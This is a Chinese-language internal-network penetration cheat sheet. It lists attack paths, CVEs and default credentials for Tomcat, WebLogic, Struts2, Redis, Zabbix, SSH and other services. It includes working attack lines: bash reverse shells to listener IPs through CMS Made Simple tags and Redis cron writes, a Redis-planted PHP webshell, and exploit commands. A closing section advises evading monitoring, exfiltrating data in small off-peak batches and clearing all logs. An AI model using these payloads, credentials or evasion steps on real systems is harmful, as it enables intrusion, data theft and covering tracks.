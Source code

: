 常规思路
========================================

内网安全检查
----------------------------------------

攻击思路
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 攻击外网服务器，获取外网服务器的权限，接着利用入侵成功的外网服务器作为跳板，攻击内网其他服务器，最后获得敏感数据，并将数据传递到攻击者，看情况安装长期后门，实现长期控制和获得敏感数据的方式；
- 攻击办公网的系统、办公网电脑、办公网无线等方式，一般是采用社工，实现控制办公电脑，再用获得的办公网数据，可能是内网的各种登录账号和密码，再获取办公网或者生产网的有用数据。

敏感资料/数据/信息
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 高管/系统管理员/财务/人事/业务人员的个人电脑
- 文件服务器/共享服务器
- 邮件服务器
- OA服务器
- 数据库服务器

攻击过程
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 信息收集
- 漏洞验证/漏洞攻击
- 后渗透
- 日志清理

信息收集
----------------------------------------
- 主机发现
- 端口扫描
- 漏洞扫描
- 识别内网环境
	+ 办公网
	+ 生产网

漏洞验证/漏洞攻击
----------------------------------------

Web
----------------------------------------

自定义 Web 应用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Web 中间件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Tomcat
	+ 端口号：8080
	+ 攻击方法
		- 默认口令、弱口令，爆破，tomcat5 默认有两个角色：tomcat和role1。其中账号both、tomcat、role1的默认密码都是tomcat。弱口令一般存在5以下的版本中。
		- 在管理后台部署 war 后门文件
		- 远程代码执行漏洞
	+ 常见漏洞
		- CVE-2016-8735
		- CVE-2017-12615
- Jboss
	+ 端口：8080
	+ 攻击方法
		- 弱口令，爆破
		- 管理后台部署 war 后门
		- 反序列化
		- 远程代码执行
	+ 常见漏洞
		- CVE-2015-7501
		- CVE-2017-7504
		- CVE-2017-12149
- WebLogic
	+ 端口：7001，7002
	+ 攻击方法
		+ 弱口令、爆破，弱密码一般为weblogic/Oracle@123 or weblogic
		+ 管理后台部署 war 后门
		+ SSRF
		+ 反序列化漏洞
		+ weblogic_uac
	+ 常见漏洞
		- CVE-2019-2725
		- CVE-2019-2729
		- CVE-2018-3191
		- CVE-2018-2628
		- CVE-2018-2893
		- CVE-2018-2894
		- CVE-2017-3506
		- CVE-2017-10271
		- CVE-2017-3248
		- CVE-2016-0638
		- CVE-2016-3510
		- CVE-2015-4852
		- CVE-2014-4210
- WebSphere
	+ 端口：默认端口：908*；第一个应用就是9080，第二个就是9081；控制台9090
	+ 攻击方法
		+ 控制台登录爆破
		+ 很多内网 websphere 的控制台存在弱口令 / 默认口令，可以使用 admin/admin 以及 webshpere/webshpere 这种口令登录。 通过该口令登录控制台后，可以部署 war 包，从而获取到 WEBSHELL 。
		+ 反序列化
		+ 任意文件泄露
		
Web 框架
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Struts2
	+ 可利用漏洞
		+ S2-048
		+ S2-052
		+ S2-053
		+ S2-057
		+ S2-046 CVE-2017-5638 Struts 2.3.5-2.3.31,Struts 2.5-2.5.10
		+ S2-045 CVE-2017-5638 Struts 2.3.5-2.3.31,Struts 2.5-2.5.10
		+ S2-037 CVE-2016-4438 Struts 2.3.20-2.3.28.1
		+ S2-032 CVE-2016-3081 Struts 2.3.18-2.3.28
		+ S2-020 CVE-2014-0094 Struts 2.0.0-2.3.16
		+ S2-019 CVE-2013-4316 Struts 2.0.0-2.3.15.1
		+ S2-016 CVE-2013-2251 Struts 2.0.0-2.3.15
		+ S2-013 CVE-2013-1966 Struts 2.0.0-2.3.1
		+ S2-009 CVE-2011-3923 Struts 2.0.0-2.3.1.1
		+ S2-005 CVE-2010-1870 Struts 2.0.0-2.1.8.1
	+ 扫描工具
		+ https://github.com/x51/STS2G/releases
		+ ``ST2SG --mode scan --url http://xxx.com/index.action``
- Spring 框架
	+ 可利用漏洞
		+ CVE-2010-1622
		+ CVE-2018-1274
		+ CVE-2018-1270
		+ CVE-2018-1273
		+ 反序列化
		+ 目录穿越
		
Web 服务器
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- IIS：Windows 的 WWW 服务器
	+ https://masterxsec.github.io/2017/06/07/IIS-write-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/
	+ http://www.freebuf.com/articles/4908.html
	+ https://www.anquanke.com/post/id/85811
	+ IIS，开启了 WebDAV，可以直接详服务器 PUT 文件
	+ 短文件名枚举漏洞
	+ 远程代码执行
	+ 提权漏洞
	+ 解析漏洞
- Apache 
	+ 解析漏洞
	+ 目录遍历
- Nginx 
	+ https://www.seebug.org/vuldb/ssvid-92538
	+ 解析漏洞
	+ 目录遍历
	+ CVE-2016-1247：需要获取主机操作权限，攻击者可通过软链接任意文件来替换日志文件，从而实现提权以获取服务器的root权限
- lighttpd
	+ 目录遍历

常见运维系统
----------------------------------------
一般分自动化部署和运维监控相关的的工具。漏洞可以通过搜索引擎搜索，github搜索，ExploitDB搜索，官网上的安全通告获取。
内网的通用类应用比较常见的问题是弱口令，如果一个管理员可以登录几个系统，那在这几个系统的账号、密码也基本上是一样的。

Gitlab
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- GitLab是一个利用 Ruby on Rails 开发的开源应用程序，实现一个自托管的项目仓库，可通过Web界面进行访问公开的或者私人项目。
- 可利用漏洞
	+ 任意文件读取漏洞
	+ 任意用户 token 泄露漏洞
	+ 命令执行漏洞
	
Jenkins
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Jenkins是一种跨平台的持续集成和交付的应用软件，它便于不断稳定地交付新的软件版本，并提高你的工作效率。这款开发运维工具还让开发人员更容易把项目的变化整合起来，并使用大量的测试和部署技术。
- 可利用漏洞：
	+ 远程代码执行漏洞
	+ 反序列化漏洞
	+ 未授权访问漏洞
	+ 登录入口爆破
- 常见漏洞
	+ CVE-2018-1999002

Puppet
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Puppet Enterprise专门管理基础设施即代码(IAC)，在这种类型的IT基础设施配置过程中，系统用代码而不是脚本流程来自动构建、管理和配置。由于它是代码，整个过程易于重复。Puppet有助于更容易控制版本、自动化测试和持续交付，可以更快速地响应问题或错误。
- 可利用漏洞，很少公开的POC
- 反序列化
- 远程命令执行

Ansible
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Ansible是一种配置和管理工具，面向客户端的软件部署和配置，支持Unix、Linux和Windows。它使 用JSON和YAML，而不是IAC，根本不需要节点代理就可以安装。它可以通过OpenStack在内部系统上使用，也可以在亚马逊EC2上使用。
- 可利用漏洞
	+ 远程代码执行
	
Nagios
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Nagios是一款开源的电脑系统和网络监视工具，能有效监控Windows、Linux和Unix的主机状态，交换机路由器等网络设置，打印机等。在系统或服务状态异常时发出邮件或短信报警第一时间通知网站运维人员，在状态恢复后发出正常的邮件或短信通知。
- 可利用漏洞
	+ 代码执行
	+ SQLi
	
Zabbix
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Zabbix 是一款强大的开源分布式监控系统, 能够将SNMP、JMX、Zabbix Agent提供的数据通过WEB GUI的方式进行展示。
- 可利用漏洞
	+ 远程代码执行
	+ SQLi
	+ shell 命令注入
	+ 认证绕过
	+ 默认账户与密码，默认口令 admin/zabbix，或者是guest/空
	
Cacit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Cacti是一套基于PHP,MySQL,SNMP及RRDTool开发的网络流量监测图形分析工具。
- 可利用漏洞
	+ 任意代码执行
	+ SQLi
	+ 登录爆破
	+ 默认密码admin/admin
	
Splunk
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Splunk Enterprise 可以从任何来源监控和分析机器数据，以提供操作智能，从而优化您的 IT、安全和业务绩效。Splunk Enterprise 具有直观的分析功能、机器学习、打包应用程序和开放式 API，是一个灵活的平台，可从重点用例扩展到企业范围的分析主干。
- 可利用漏洞
	+ 信息泄露
	+ 命令注入
	+ 服务端请求伪造

常见Web应用
----------------------------------------

邮件系统
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一部分是使用腾讯企业邮箱、阿里企业邮箱的，很难有可利用的漏洞，另外一种是能独立部署的邮件系统，政企常用的邮箱应用：

- Coremail
- 亿邮
- 35互联
- TurboMail
- Exchange
- IBM Lotus

CMS应用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- thinkphp
	+ 漏扫工具
		- https://github.com/Lucifer1993/TPscan
		- https://github.com/theLSA/tp5-getshell

- wordpress
	+ 扫描插件和主题是否包含漏洞
	+ 拿到wp网站登录用户名和密码
		- 可通过上传主题文件来getshell，首先先去官网下载一个主题压缩包，之后将反弹shell的php代码写入shell.php中，然后将其放入压缩包一起上传
		- shell目录：/wp-content/themes/[主题名]/[shell文件名]
		- 通过主题编辑修改php页面
	+ xmlrpc.php
		- 查看支持的方案
		
		::
		
			POST /xmlrpc.php HTTP/1.1
			Host: 192.168.100.106
			User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
			Content-Type: text/xml;charset=UTF-8
			Content-Length: 128

			<?xml version="1.0" encoding="iso-8859-1"?><methodCall><methodName>system.listMethods</methodName><params></params></methodCall>

- CMS Made Simple
	+ 数据库更改密码方法
		- 前提：登录数据库
		- ``update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name='sitemask'),''),'admin'))) where username = 'admin';``
	+ 反弹shell
		- 前提：登录系统
		- Extensions/User Defined Tags
			::
				
				vps开启监听
				修改任何一个tag的code，点击apply，点击run
				echo system("bash -c 'bash -i >& /dev/tcp/192.168.100.108/4444 0>&1'");
			
- tiki
	+ CVE-2020-15906
		- 利用条件：tiki<21.2
		- 免密码登录
			::
			
				https://www.exploit-db.com/exploits/48927
				python 48927.py 192.168.100.103
				打开burpsuite，开启拦截
				浏览器登录admin，输入密码
				bp去掉密码，forward
				
		- 命令执行
			::
			
				https://srcincite.io/pocs/cve-2021-26119.py.txt
				python cve-2021-26119.py 192.168.100.103 /tiki/ whoami

数据库/缓存/消息服务
----------------------------------------

MySQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：3306
- 攻击方法
	+ 爆破：弱口令
	+ 身份认证漏洞：CVE-2012-2122
	+ 拒绝服务攻击
	+ Phpmyadmin万能密码绕过：用户名：‘localhost’@’@” 密码任意
	+ 提权
	
MSSQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：1433（Server 数据库服务）、1434（Monitor 数据库监控）
- 攻击方法：
	+ 爆破：弱口令/使用系统用户
	+ 注入
	
Oracle数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：1521（数据库端口）、1158（Oracle EMCTL端口）、8080（Oracle XDB数据库）、210（Oracle XDB FTP服务）
- 攻击方法：
	+ 爆破：弱口令
	+ 注入攻击
	+ 漏洞攻击

PostgreSQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：5432
- 攻击方法
	+ 爆破：弱口令：postgres postgres
	+ 缓冲区溢出：CVE-2014-2669
	
MongoDB数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：27017
- 攻击方法
	+ 爆破：弱口令
	+ 未授权访问；github有攻击代码；
	
Redis数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：6379
- 攻击方法
	+ 爆破：弱口令
	+ 未授权访问+配合ssh key提权
- 工具和命令
	+ 连接：``redis-cli -h 172.16.143.1 -p 6379``
	+ 查看所有的keys：``keys *``
	+ 写入文件
		::
		
			CONFIG GET dir
			CONFIG SET dir /usr/share/apache/htdocs/
			SET shell "<?php echo system($_REQUEST[cmd])?>"
			CONFIG SET dbfilename shell.php
			save
	+ 反弹shell
		::
		
			C2服务器监听：nc -lvnp 7999
			
			redis服务器执行以下redis命令：
			set xx "\n* * * * * bash -i >& /dev/tcp/192.168.32.144/7999 0>&1\n"
			config set dir /var/spool/cron/
			config set dbfilename root
			save

SysBase数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：服务端口5000；监听端口4100；备份端口：4200
- 攻击方法：
	+ 爆破：弱口令
	+ 命令注入
	
DB2 数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：5000
- 攻击方法
	+ 安全限制绕过：成功后可执行未授权操作（CVE-2015-1922）

常见服务/协议
----------------------------------------

FTP 服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
FTP服务我分为两种情况，第一种是使用系统软件来配置，比如IIS中的FTP文件共享或Linux中的默认服务软件；第二种是通过第三方软件来配置，比如Serv-U还有一些网上写的简易ftp服务器等；

- 默认端口：20（数据端口）；21（控制端口）；69（tftp小型文件传输协议）
- 攻击方式
	+ 爆破：ftp的爆破工具有很多，这里我推荐owasp的Bruter 以及msf中ftp爆破模块；
	+ 匿名访问：用户名：anonymous 密码：为空或任意邮箱
	+ 嗅探：ftp使用明文传输技术（但是嗅探给予局域网并需要欺骗或监听网关）
	+ 后门 vsftp
	+ 远程溢出
	+ 跳转攻击
	
NFS 服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
NFS（Network File System）即网络文件系统，是FreeBSD支持的文件系统中的一种，它允许网络中的计算机之间通过TCP/IP网络共享资源。在NFS的应用中，本地NFS的客户端应用可以透明地读写位于远端NFS服务器上的文件，就像访问本地文件一样。如今NFS具备了防止被利用导出文件夹的功能，但遗留系统中的NFS服务配置不当，则仍可能遭到恶意攻击者的利用。

- 攻击方法
	+ 未授权访问
	
Samba服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Samba是linux和unix系统上实现SMB/CIFS协议的一个免费软件，由服务器和客户端程序构成。而SMB是局域网支持共享文件和打印机的一种通信协议，为局域网内不同计算机之间提供文件及打印机等资源的共享服务。

- 攻击方法
	+ 远程代码执行
	+ 弱口令
	+ 未授权访问（public）

SSH服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SSH是协议，通常使用OpenSSH软件实现协议应用。

- 端口：22
- 攻击方法
	+ 爆破
	+ 后门
	+ 漏洞：28退格漏洞、OpenSSL漏洞
- 常见漏洞
	+ CVE-2018-15473
		- OpenSSH 7.7前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机。
		- auxiliary(scanner/ssh/ssh_enumusers
		- https://github.com/Rhynorater/CVE-2018-15473-Exploit.git
		- ``python sshUsernameEnumExploit.py --port 22 --userList /home/kali/Downloads/rockyou.txt 192.168.100.103``
- 命令
	+ 公钥登录: ``ssh -i id_rsa root@142.93.198.56``


Telnet服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Telnet协议是TCP/IP协议族中的一员，是Internet远程登陆服务的标准协议和主要方式。

- 默认端口：21
- 攻击方法
	+ 爆破
	+ 嗅探

Windows远程连接
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：3389
- 攻击方法
	+ 爆破
	+ Shift粘滞键后门：5次shift后门
	+ 利用ms12-020攻击3389端口
	
VNC服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
VNC（Virtual Network Computing），为一种使用RFB协议的显示屏画面分享及远程操作软件。此软件借由网络，可发送键盘与鼠标的动作及即时的显示屏画面。

- 默认端口：5900+桌面ID（5901；5902）
- 攻击方式：
	+ 爆破：弱口令
	+ 认证口令绕过：
	+ 拒绝服务攻击：（CVE-2015-5239）
	+ 权限提升：（CVE-2013-6886）
	
SMTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smtp：邮件协议，在linux中默认开启这个服务，可以向对方发送钓鱼邮件！

- 默认端口：25（smtp）、465（smtps）
- 攻击方式
	+ 爆破：弱口令
	+ 未授权访问
	
POP3协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：109（POP2）、110（POP3）、995（POP3S）
- 攻击方式：
	+ 爆破；弱口令
	+ 未授权访问

DNS服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：53
- 攻击方式：
	+ 区域传输漏洞
	
IMAP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：143（imap）、993（imaps）
- 攻击方式：
	+ 爆破：弱口令
	+ 配置不当
	
SNMP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：161
- 攻击方式
	+ 爆破：弱口令
	
DHCP服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：67&68、546（DHCP Failover做双机热备的）
- 攻击方式：
	+ DHCP劫持
	
云环境
----------------------------------------

VMware
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
使用 VMware vCloud 可将现有数据中心内的虚拟基础架构资源池化，并将其作为基于目录的服务交付。通过与云计算基础架构的最佳平台 VMware vSphere 配合使用，VMware vCloud Director 可为客户提供构建安全的私有云，从而改变 IT 部门交付和管理基础架构服务以及用户访问和使用这些服务的方式。

一般组织中很多独立安装的 Esxi 形式的私有云，或独立部署的虚拟化系统。

- 漏洞
	+ 主机逃逸
	+ CVE-2017-5638
	
OpenStack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
OpenStack是基础设施即服务（IaaS）软件，让任何人都可以自行创建和提供云计算服务。此外，OpenStack也用作创建防火墙内的“私有云”（Private Cloud），提供机构或企业内各部门共享资源。

- 漏洞，有漏洞但是POC基本没有。检查时候可以参考安全的配置实践。
	+ 权限绕过漏洞
	+ 信息泄露
	+ 代码执行漏洞
	
Docker
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Docker是一个开放源代码软件项目，让应用程序布署在软件容器下的工作可以自动化进行，借此在Linux操作系统上，提供一个额外的软件抽象层，以及操作系统层虚拟化的自动管理机制[1]。

Docker利用Linux核心中的资源分脱机制，例如cgroups，以及Linux核心名字空间（name space），来创建独立的软件容器（containers）。这可以在单一Linux实体下运作，避免引导一个虚拟机造成的额外负担。

Linux核心对名字空间的支持完全隔离了工作环境中应用程序的视野，包括进程树、网络、用户ID与挂载文件系统，而核心的cgroup提供资源隔离，包括CPU、内存、block I/O与网络。

从0.9版本起，Dockers在使用抽象虚拟是经由libvirt的LXC与systemd - nspawn提供界面的基础上，开始包括libcontainer函数库做为以自己的方式开始直接使用由Linux核心提供的虚拟化的设施。

- 安全问题（很少有漏洞的POC，安全检查也是基于最佳实践和官方安全建议进行）
	+ CVE-2015-3630 1.6.0 Docker Libcontainer 安全绕过漏洞
	+ CVE-2015-3627 1.6.1 Libcontainer和Docker Engine 权限许可和访问控制漏洞
	+ CVE-2015-3630 1.6.1 Docker Engine 安全绕过漏洞
	+ CVE-2014-9358 1.3.3 Docker 目录遍历漏洞
	+ CVE-2014-9357 1.3.2 Docker 权限许可和访问控制漏洞
	+ CVE-2014-6408 1.3.1 Docker 权限许可和访问控制漏洞
	+ CVE-2014-5277 1.3.0 Docker和docker-py 代码注入漏洞
	+ 内核漏洞（Kernel exploits） 容器是基于内核的虚拟化，主机（host）和主机上的所有容器共享一套内核。如果某个容器的操作造成了内核崩溃，那么反过来整台机器上的容器都会受到影响。
	+ 拒绝服务攻击（Denial-of-service attacks） 所有的容器都共享了内核资源，如果一个容器独占了某一个资源（内存、CPU、各种ID），可能会造成其他容器因为资源匮乏无法工作（形成DoS攻击）。
	+ 容器突破（Container breakouts） Linux的namespace机制是容器的核心之一，它允许容器内部拥有一个PID=1的进程而在容器外部这个进程号又是不一样的（比如1234）。现在问题在于如果一个PID=1的进程突破了namespace的限制，那么他将会在主机上获得root权限。
	+ 有毒镜像（Poisoned images） 主要是考虑到镜像本身的安全性，没太多好说的。
	
大数据
----------------------------------------

Elsaticsearch
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Elasticsearch 是一个分布式的搜索和分析引擎，可以用于全文检索、结构化检索和分析，并能将这三者结合起来。Elasticsearch 基于 Lucene 开发，现在是使用最广的开源搜索引擎之一，Wikipedia、Stack Overflow、GitHub 等都基于 Elasticsearch 来构建他们的搜索引擎。

- 默认端口：9200、9300
- 攻击方法：
	+ 未授权访问；
	+ 远程命令执行；
	+ 文件遍历；
	+ 低版本webshell植入；
	
hadoop
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Hadoop是一个开源的框架，可编写和运行分布式应用处理大规模数据，是专为离线和大规模数据分析而设计的，并不适合那种对几个记录随机读写的在线事务处理模式。

Hadoop=HDFS（文件系统，数据存储技术相关）+ Mapreduce（数据处理），Hadoop的数据来源可以是任何形式，在处理半结构化和非结构化数据上与关系型数据库相比有更好的性能，具有更灵活的处理能力，不管任何数据形式最终会转化为key/value，key/value是基本数据单元。

用函数式变成Mapreduce代替SQL，SQL是查询语句，而Mapreduce则是使用脚本和代码，而对于适用于关系型数据库，习惯SQL的Hadoop有开源工具hive代替。 Hadoop就是一个分布式计算的解决方案。

Hive
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Hive是Hadoop家族中一款数据仓库产品，Hive最大的特点就是提供了类SQL的语法，封装了底层的MapReduce过程，让有SQL基础的业务人员，也可以直接利用Hadoop进行大数据的操作。

Sqoop
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Apache Sqoop（SQL-to-Hadoop） 项目旨在协助 RDBMS 与 Hadoop 之间进行高效的大数据交流。

用户可以在 Sqoop 的帮助下，轻松地把关系型数据库的数据导入到 Hadoop 与其相关的系统 (如HBase和Hive)中；同时也可以把数据从 Hadoop 系统里抽取并导出到关系型数据库里。除了这些主要的功能外，Sqoop 也提供了一些诸如查看数据库表等实用的小工具。

HBase
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
HBase建立在HDFS之上，提供高可靠性、高性能、列存储、可伸缩、实时读写的数据库系统。

它介于NoSQL和RDBMS之间，仅能通过行键(row key)和行键序列来检索数据，仅支持单行事务(可通过Hive支持来实现多表联合等复杂操作)。主要用来存储非结构化和半结构化的松散数据。

与Hadoop一样，HBase目标主要依靠横向扩展，通过不断增加廉价的商用服务器，来增加计算和存储能力。

Spark
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Spark是UC Berkeley AMP lab所开源的类Hadoop MapReduce的通用的并行计算框架，Spark基于map reduce算法实现的分布式计算，拥有Hadoop MapReduce所具有的优点；但不同于MapReduce的是Job中间输出和结果可以保存在内存中，从而不再需要读写HDFS。


后渗透
----------------------------------------

提权
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- https://github.com/SecWiki/windows-kernel-exploits
- https://github.com/SecWiki/linux-kernel-exploits

域攻击
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 确定目标系统和应用程序
- 识别潜在的漏洞
- 利用漏洞获得初始访问
- 提升权限
- 定位域管理进程或者获取远程系统上的本地身份验证令牌
- 通过本地管理员的密码Hash，破解密码，使用mimikatz工具抓取密码验证运行在远程系统上的域名管理进程
- 迁移域管理进程
- 创建一个域管理员

建立后门/端口转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- LCX：windows下面的端口转发软件。
- sockscap：主要针对windows平台的端口转发和代理转发。
- proxifier：跨平台的端口转发和代理工具，适用windows，linux，
- Macos平台，代理转发利器
- Rsscoks：＊nix平台下的端口转发和代理工具，配合proxychains好用到不行。
- Proxychains：＊nix平台下老牌的socks代理工具，一般的系统都会自带，谁用谁知道。
- ssh proxy：通过ssh做端口代理和转发，一般＊nix系统都自带。
- netcat：socat，hping，在很多情况下可以做端口转发和数据代理转发。
- metasploit：metasploit的后渗透模块中有不少代理模块和端口转发模块

传输文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

制作后门/木马程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

日志清理
----------------------------------------

注意事项
----------------------------------------
- 检查内网监控防范系统
- 谨慎使用ARP软件和大面积扫描软件
- 使用目标网络中无空闲机器，作为打包对象
- 使用内网大流量机器作为传输对象，如wsus服务器、视频会议系统
- 使用临时机器打包、数据传输，不要使用已控机器，可利用wmi脚本或wmic远程操作
- 禁止使用psexec.exe
- 打包时避开用户工作时间
- 控制卷包大小<100M
- 选择用户常用压缩软件
- 错峰下载数据
- 控制传输流量
- 清除所有操作日志
- 登录主机前先看看管理员是否在
